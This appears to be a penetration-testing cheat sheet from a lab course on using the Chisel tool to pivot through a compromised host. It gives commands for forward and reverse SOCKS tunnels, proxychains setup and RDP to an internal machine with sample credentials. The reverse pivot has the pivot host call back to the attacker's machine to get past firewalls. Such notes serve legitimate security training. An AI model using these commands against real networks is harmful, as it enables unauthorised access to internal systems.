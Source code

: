 -- -
Tool written in Go that you can use to create a tunnel via SSH to forward your traffic through.
### Install
```bash
# on attack host
# Make sure Golang is installed on your system
git clone https://github.com/jpillora/chisel.git
cd chisel
go build
```
### Transfer binary
```bash
# scp chisel binary from attack host to pivot host
scp chisel ubuntu@10.129.202.64:~/
```
### Run Server
```bash
# on pivot host
./chisel server -v -p 1234 --socks5
```
### Run Client
```bash
# on attack host
./chisel client -v <pivot host ip>:<server port> socks
./chisel client -v 10.129.202.64:1234 socks
```
### Config proxychains
```bash
# on attack host
# note: in the client command above, it will output the port the client is listening on, for our example it output 1080 as the local listener port
sudo vim /etc/proxychains.conf

# in /etc/proxychains.conf:
socks5 127.0.0.1 1080
```
### Forward traffic via proxychains
```bash
# run whatever you want to run via proxychains
# may or may not need sudo
proxychains xfreerdp /v:172.16.5.19 /v:victor /p:pass@123
```
### Reverse Pivot 
Use this method when restricted by a firewall with limited inbound traffic allowed. 
```bash
# Start server on attack host
sudo ./chisel server --reverse -v -p 1234 --socks5

# start client on pivot host, ip here is the attackhost tho
./chisel client -v 10.10.14.17:1234 R:socks

# edit proxychains file on attack host
sudo vim /etc/proxychains.conf

# input into proxychains config file
socks5 127.0.0.1 1080

# funnel commands through proxychains
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```